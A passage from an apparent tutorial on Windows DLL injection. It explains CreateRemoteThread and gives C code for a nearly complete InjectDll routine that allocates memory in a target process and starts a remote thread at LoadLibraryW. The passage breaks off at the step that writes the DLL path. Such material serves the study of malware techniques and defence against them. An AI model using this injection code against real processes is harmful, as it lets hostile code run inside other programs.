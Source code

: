 The last step is to create a new thread using `CreateRemoteThread` function. The starting address of this thread will be the `pLoadLibraryW`  that we obtained before. Since this address the `LoadLibraryW` address, it will execute that function.  If we read the `CreateRemoteThread` documentation, the function has these parameters: 

```jsx
HANDLE CreateRemoteThread(
  [in]  HANDLE                 hProcess,
  [in]  LPSECURITY_ATTRIBUTES  lpThreadAttributes,
  [in]  SIZE_T                 dwStackSize,
  [in]  LPTHREAD_START_ROUTINE lpStartAddress,
  [in]  LPVOID                 lpParameter,
  [in]  DWORD                  dwCreationFlags,
  [out] LPDWORD                lpThreadId
);
```

As we can see, the `lpStartAddress` is a pointer to the starting address of the function that the thread will execute (in this case `LoadLibraryW`) and the `lpParameter`  is a pointer to a variable sent to the thread. We will use a pointer to the memory address we allocated and wrote the DLL path as `lpParameter` .

```c
HANDLE		hThread = NULL;
//Step 5: Create a new Thread starting at the LoadLibraryW function address
hThread = CreateRemoteThread(hProcess, NULL, NULL, pLoadLibraryW, pAddress, NULL, NULL);
if (hThread == NULL) {
	printf("[!] CreateRemoteThread Failed With Error : %d \n", GetLastError());
	bSTATE = FALSE; goto _EndOfFunction;
}
printf("[+] DONE !\n");
```

The complete  function code looks like this: 

```jsx
BOOL InjectDll(HANDLE hProcess, LPWSTR DllName) {

	BOOL		bSTATE = TRUE;

	LPVOID		pLoadLibraryW = NULL;
	LPVOID		pAddress = NULL;

	DWORD		dwSizeToWrite = lstrlenW(DllName) * sizeof(WCHAR);

	SIZE_T		lpNumberOfBytesWritten = NULL;

	HANDLE		hThread = NULL;

	pLoadLibraryW = GetProcAddress(GetModuleHandle(L"kernel32.dll"), "LoadLibraryW");
	if (pLoadLibraryW == NULL) {
		printf("[!] GetProcAddress Failed With Error : %d \n", GetLastError());
		bSTATE = FALSE; goto _EndOfFunction;
	}

	//Step 3: Allocate Memory Space
	pAddress = VirtualAllocEx(hProcess, NULL, dwSizeToWrite, MEM_COMMIT | MEM_RESERVE, PAGE_READWRITE);
	if (pAddress == NULL) {
		printf("[!] VirtualAllocEx Failed With Error : %d \n", GetLastError());
		bSTATE = FALSE; goto _EndOfFunction;
	}

	printf("[i] pAddress Allocated At : 0x%p Of Size : %d\n", pAddress, dwSizeToWrite);

	//Step 4: Write DllName (Path) to the other process memory
```